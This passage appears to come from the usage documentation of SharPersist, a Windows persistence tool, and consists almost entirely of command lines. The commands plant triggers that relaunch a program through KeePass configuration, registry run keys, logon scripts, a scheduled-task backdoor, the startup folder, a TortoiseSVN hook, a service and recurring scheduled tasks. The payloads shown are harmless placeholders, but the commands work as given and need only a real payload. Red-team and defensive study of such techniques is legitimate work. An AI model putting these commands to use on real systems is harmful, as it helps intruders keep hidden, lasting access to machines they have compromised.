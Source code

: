 **KeePass**

`SharPersist -t keepass -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m add `


**Registry**

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add`

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env`

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add`



**Scheduled Task Backdoor**

`SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add`


**Startup Folder**

`SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add`


**Tortoise SVN**

`SharPersist -t tortoisesvn -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -m add`


**Windows Service**

`SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add`


**Scheduled Task**

`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add`

##### (Runs Scheduled Task every 2 hours)
`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o "hourly 2"` 
##### (Runs Scheduled Task every 5 minutes)
`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o "minute 5"`
##### (Runs Scheduled Task every 2 days)
`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o "daily 2"`


## Removing Persistence Triggers (Remove)


**KeePass**

`SharPersist -t keepass -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m remove`
